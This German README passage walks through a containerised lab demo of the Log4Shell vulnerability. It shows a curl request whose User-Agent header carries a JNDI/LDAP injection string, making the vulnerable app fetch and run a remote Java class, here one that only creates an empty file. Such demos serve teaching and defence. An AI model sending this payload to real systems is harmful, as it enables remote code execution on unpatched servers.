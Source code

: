 #### Schritt-für-Schritt-Angriff

Um die Demo auszuführen, benötigen Sie zwei Konsolenfenster. Starten Sie zunächst die Umgebung mit `docker-compose up --build` in einem Terminal, falls Sie dies nicht bereits gemacht haben. In einem zweiten Terminal führen Sie dann die folgenden Schritte aus:

1. **Verifizieren Sie, dass die Datei noch nicht existiert**:

   Da es sich um eine Demo handelt, wird als Exploit lediglich eine leere Datei erstellt, um die erfolgreiche Ausführung zu demonstrieren. Die können Sie der Klasse `payload-server/Exploit.java` entnehmen. Um zu überprüfen, ob die Datei noch nicht existiert, führen Sie folgenden Befehl aus:

   ```bash
   docker exec vulnerable_app ls -l /tmp/remote_code_execution
   ```

   Wenn die Datei nicht existiert, sollte eine Fehlermeldung wie `No such file or directory` erscheinen. Dies bestätigt, dass der Exploit noch nicht ausgeführt wurde.

2. **Senden Sie die manipulierte Zeichenkette an die Anwendung**:

   ```bash
   curl -X GET -H 'User-Agent: ${jndi:ldap://ldap-server:1389/Exploit}' http://localhost:8080
   ```

   Erklärung des Payloads:

   - `${jndi:...}`: Log4j interpretiert diesen Ausdruck automatisch und führt einen JNDI-Lookup durch.
   - `ldap://ldap-server:1389`: Verbindet sich mit dem LDAP-Server, der im Docker-Netzwerk läuft.
   - `/Exploit`: Name des LDAP-Eintrags, der auf die schädliche Klasse verweist.
   - `http://localhost:8080`: Die URL der verwundbaren Anwendung, an die Sie die Anfrage senden, um die Log4j-Schwachstelle auszulösen.

3. **Was passiert im Hintergrund?**

   ![Log4Shell-Konsolenausgabe](./Log4Shell-Konsole.png)

   - Die Anwendung empfängt die Anfrage und will den `User-Agent`-Header loggen
   - Log4j wertet den `User-Agent`-Header aus und führt einen **JNDI-Lookup** über **LDAP** durch
   - Der LDAP-Server verweist auf eine entfernte `Exploit.class`, welche der Payload-Server bereitstellt
   - Die Anwendung lädt die Klasse vom Payload-Server und führt sie aus
   - Am Ende wird dann die ursprüngliche Log-Nachricht mit dem dynamischen Inhalt geloggt

> Hinweis: Wie bereits erwähnt, wird in dieser Demo lediglich eine Datei erstellt, um die erfolgreiche Ausführung zu demonstrieren. In echten Angriffsszenarien könnte beliebiger Code ausgeführt werden!

4. **Angriffsfolge überprüfen**

   Nun können Sie erneut überprüfen, ob die Datei `/tmp/remote_code_execution` im Container erstellt wurde:

   ```bash
   docker exec vulnerable_app ls -l /tmp/remote_code_execution
   ```

